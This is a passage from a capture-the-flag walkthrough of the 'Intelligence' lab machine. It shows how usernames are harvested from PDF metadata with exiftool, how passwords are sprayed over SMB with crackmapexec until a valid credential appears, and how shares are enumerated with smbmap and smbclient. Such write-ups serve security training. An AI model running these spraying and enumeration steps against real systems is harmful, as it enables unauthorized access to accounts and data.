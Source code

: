 So now we have to find usernames. Within each PDF file, there seems to be a unique user that created it.

```
$ exiftool -creator 2020-01-01-upload.pdf 
Creator                         : William.Lee
```

We can just do `exiftool -creator *.pdf` to find all the users, and redirect the output into a wordlist. There are about 83 users:

```
William.Lee
Scott.Scott
Jason.Wright
Veronica.Patel
Jennifer.Thomas
Danny.Matthews
...
```

Then, we do password spraying with `crackmapexec`.&#x20;

```
$ crackmapexec smb 10.129.95.154 -u files/users -p NewIntelligenceCorpUser9876
...
[+] intelligence.htb\Tiffany.Molina:NewIntelligenceCorpUser9876
```

### Tiffany SMB --> Poison DNS

We cannot login using `evil-winrm` with this, so let's enumerate the SMB shares.&#x20;

```
$ smbmap -u 'Tiffany.Molina' -p 'NewIntelligenceCorpUser9876' -H 10.129.95.154
[+] IP: 10.129.95.154:445       Name: 10.129.95.154                                     
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        ADMIN$                                                  NO ACCESS       Remote Admin
        C$                                                      NO ACCESS       Default share
        IPC$                                                    READ ONLY       Remote IPC
        IT                                                      READ ONLY
        NETLOGON                                                READ ONLY       Logon server share 
        SYSVOL                                                  READ ONLY       Logon server share 
        Users                                                   READ ONLY
```

We see that we have access to IT. Within it, there's only one file:

```
$ smbclient -U Tiffany.Molina //10.129.95.154/IT                              
Password for [WORKGROUP\Tiffany.Molina]:
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Sun Apr 18 20:50:55 2021
  ..                                  D        0  Sun Apr 18 20:50:55 2021
  downdetector.ps1                    A     1046  Sun Apr 18 20:50:55 2021
```
